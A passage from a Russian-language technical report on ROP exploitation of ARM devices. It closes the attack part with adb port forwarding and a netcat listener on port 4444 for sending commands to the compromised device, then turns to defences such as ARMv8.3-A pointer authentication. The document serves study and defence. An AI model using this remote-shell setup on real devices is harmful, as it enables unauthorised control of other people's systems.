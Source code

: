 ![](https://github.com/IgorKurylev/arm_rop_report/blob/master/pics/buffer_final.png)

Рис. 3.12 итоговое наполнение буфера с гаджетами

В результате вызова функции **system** становится возможным установить tcp - соединение с портом 4444 и отправлять команды на устройство следующим образом:

```sh
adb reverse tcp:4444 tcp:4444 # проброс порта через adb, чтобы отправлять команды на порт устройства через USB
nc -l -p 4444 # установление tcp  соединения через tcp порт 4444
# далее можно отправлять команды на устройство
```

## Способы защиты от ROP <a name="protecting"></a>

Любая библиотека, находящаяся в адресном пространстве процесса - потенциальный источник вредоносных гаджетов. Чем больше библиотека - тем разнообразнее гаджеты, что дает больше возможностей атакующей стороне. Несмотря на всю сложность поиска гаджетов, вредоносный код может даже автоматизировать этот процесс и подстраиваться под многие атакуемые системы. Но различные меры противодействия ROP атакам могут предотвратить такую возможность. Рассмотрим механизмы предотвращения ROP атак.

### Механизмы, специфичные только архитектуре ARM

#### Аутентификация указателей

Архитектура Armv8.3-A вводит такую процедуру, как аутентификация указателей. Этот механизм изначально предполагает, что все указатели являются 64-битными, но не все их разряды используются для представления адресов в памяти. Рис. 4.1  показывает разметку виртуального адресного пространства. EL0 - EL3 - т.н. уровни исключений, в контексте которых выполняются программы (EL0 - пользовательский, EL1 - ядро ОС, EL2 - гипервизор, EL3 - уровень прошивки/железа)
